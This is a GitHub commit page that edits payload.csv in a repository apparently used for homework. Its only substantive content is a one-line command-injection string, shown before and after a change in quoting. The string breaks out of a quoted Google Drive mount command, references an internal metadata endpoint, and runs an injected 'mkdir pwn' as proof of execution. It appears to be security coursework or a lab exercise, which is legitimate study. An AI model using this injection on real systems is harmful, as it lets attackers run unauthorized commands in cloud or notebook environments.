

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2
-TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E "Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream"; echo "drive EXITED"; ) & mkdir pwn & #' #,
+TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E 'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream'; echo 'drive EXITED'; ) & mkdir pwn & # ' #,
```
